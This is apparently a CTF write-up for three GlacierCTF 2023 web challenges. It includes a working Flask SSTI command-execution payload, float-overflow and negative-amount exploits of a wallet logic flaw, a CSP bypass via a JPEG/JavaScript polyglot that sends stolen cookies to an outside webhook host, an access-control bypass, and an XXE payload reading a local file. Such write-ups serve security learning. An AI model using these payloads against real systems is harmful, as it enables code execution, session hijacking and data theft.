

#ctf #glacier-ctf-2023 #web #python #python-flask #ssti #ffuf #logic-flaw #float-overflow #xss #xss-stored #xss-csp-bypass #xss-polyglot #broken-access-control #xxe 
# Web

## My first Website

### Info


### Solve

#### SSTI (Flask)

It's a calculator


By visiting a `404` page, it says `Custom 404 Page`


Since the `path` will be reflected by a custom `404` page, tested SSTI and it works

```bash
┌──(bravosec㉿fsociety)-[/media/sf_Kali/ctf/GlacierCTF]
└─$ http 'https://myfirstsite.web.glacierctf.com/{{7*7}}'|h2t


404 - Page Not Found

Oops! The page you're looking for at /49 doesn't exist.
```

We can also do a full fuzz on the URL

```bash
ffuf -c -u "https://myfirstsite.web.glacierctf.com/FUZZ" -w /opt/wordlists/IntruderPayloads/FuzzLists/full_fuzz.txt -o ffuf.html -of html
```

```bash
xdg-open ffuf.html
```

Sort the result by length, only these keywords return `500` code


Use `lipsum` method to run code

```bash
┌──(bravosec㉿fsociety)-[/media/sf_Kali/ctf/GlacierCTF]
└─$ http 'https://myfirstsite.web.glacierctf.com/{{lipsum.__globals__["os"].popen("cat /flag*").read()}}'|h2t


404 - Page Not Found

Oops! The page you're looking for at /gctf{404_fl4g_w4s_f0und} doesn't exist.
```
## Glacier Exchange

### Info


### Solve

#### Enum


> `wallet.py`

```python
import threading


class Wallet():
    def __init__(self) -> None:
        self.balances = {
            "cashout": 1000,
            "glaciercoin": 0,
            "ascoin": 0,
            "doge": 0,
            "gamestock": 0,
            "ycmi": 0,
            "smtl": 0
        }
        self.lock = threading.Lock();


    def getBalances(self):
        return self.balances
    
    def transaction(self, source, dest, amount):
        if source in self.balances and dest in self.balances:
            with self.lock:
                if self.balances[source] >= amount:
                    self.balances[source] -= amount
                    self.balances[dest] += amount
                    return 1
        return 0
    
    def inGlacierClub(self):
        with self.lock:
            for balance_name in self.balances:
                if balance_name == "cashout":
                    if self.balances[balance_name] < 1000000000:
                        return False
                else:
                    if self.balances[balance_name] != 0.0:
                        return False
            return True
```

> `server.py`

```python
@app.route('/api/wallet/transaction', methods=['POST'])
def transaction():
    payload = request.json
    status = 0
    if "sourceCoin" in payload and "targetCoin" in payload and "balance" in payload:
        wallet = get_wallet_from_session()
        status = wallet.transaction(payload["sourceCoin"], payload["targetCoin"], float(payload["balance"]))
    return jsonify({
        "result": status
    })
```

To get the flag, we need to get more than `1000000000` balance for `cashout`, and **keep the rest coins `0` balance at the same time** 

We can gain **infinite** balance for `cashout` by sending negative amount in transactions


Now, how to make all other coins `0` balance?
#### Unintended Way - Logic flaw in checkers

It doesn't check if `source` and `destination` coin is different

So I can give `cashout` infinite money without subtracting other coins

```json
{
  "sourceCoin": "cashout",
  "targetCoin": "cashout",
  "balance": "-inf"
}
```

It will do something like this in backend

```python
>>> cashout = float(1000)
>>> amount = float('-inf')
>>> cashout -= amount
>>> cashout += amount
>>> cashout
nan
>>> cashout < 1000000000
False
```

Get the flag

```
POST /api/wallet/join_glacier_club HTTP/2
```


#### Intended Way - Float overflow in python app

In order to bypass the check, we can trigger **float overflow** to throw exception, then make `inGlacierClub()` return `True`

**What is float overflow?**

There's a max limit for float value

```python
>>> import sys
>>> x = sys.float_info.max
>>> x
1.7976931348623157e+308
>>> x + 111111
1.7976931348623157e+308
```

> `1.7976931348623157e+308` = `1.7976931348623157 x 10 ^ 308`

I can subtract `ascoin` and `doge` with `-max`, so they will be `max` and `-max`

- Transaction

```json
{
  "sourceCoin": "ascoin",
  "targetCoin": "doge",
  "balance": "-1.7976931348623157e+308"
}
```

- Balance


Now just give `1.7976931348623157e+308` from **doge** to **ascoint**

- Transaction 2

```json
{
  "sourceCoin": "ascoin",
  "targetCoin": "doge",
  "balance": "1.7976931348623157e+308"
}
```

- Balance 2




## Peak

### Info


### Solve

#### Enum

- **Stored XSS** in a contact form


- We can't execute php webshells


- It only allow to upload images


- An browser automation script will browse user submitted messages, with the `--disable-xss-auditor` option


- **XXE Injection** in `admin/map.php`


#### Session as admin

##### XSS - Bypass CSP via jpg polyglot

> https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#file-upload-+-self

> https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#jpeg-polyglot-xss

This **CSP** only allows scripts to be loaded from the site

```css
Content-Security-Policy: script-src 'self'
```

Since we can upload files, embed the javascript to steal cookie in JPG file, so that we can load it from site

> https://github.com/Wuelle/js_jpeg_polyglot

```bash
cd /opt/sectools/web/XSS/Bypasses/js_jpeg_polyglot
```

Check example format of payload

```bash
┌──(bravosec㉿fsociety)-[/media/sf_Kali/ctf/GlacierCTF/js_jpeg_polyglot]
└─$ cat proof_of_concept/test.js
=alert("worked");
```

Craft a payload to steal cookie (Use `beef-xss` to open proxy if there was `HTTPONLY` set for cookie)

> `steal_cookie.js`

```javascript
=new Image().src="https://webhook.site/153036b5-ca9a-49d7-a0e0-4d194fce1d2e?c="+btoa(document.cookie);
```

Generate image payload

```bash
convert -size 100x100 xc:white gen.jpg
python polyglot.py gen.jpg steal_cookie.js out.jpg
```

Upload the image and to get image link

- The `charset` for `<script>` needs to be `ISO-8859-1` in order to work

Payload :

```javascript
Hello There !
<script charset="ISO-8859-1" src="/uploads/6565bfd29dba51701167058646034"></script>
```

Got the admin's cookie


```bash
┌──(bravosec㉿fsociety)-[~]
└─$ echo 'UEhQU0VTU0lEPXJsdXFhcDBmOXBwaTlraDc4Y25yc3Vrdjg3'|base64 -d
PHPSESSID=rluqap0f9ppi9kh78cnrsukv87
```

Change to the cookie in browser


##### Unintended - Broken access control for /admin/map.php

The page doesn't restrict access from normal users, but send `302` redirect to `/login.php` instead


Drop `302` redirect to browse the page normally

`Proxy` -> `Match and replace rules`


#### XXE

Now I can edit map


Payload :

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///flag.txt'>]>
<markers>
    <marker>
        <lat>47.0748663672</lat>
        <lon>12.695247219</lon>
        <name>&test;</name>
    </marker>
</markers>
```


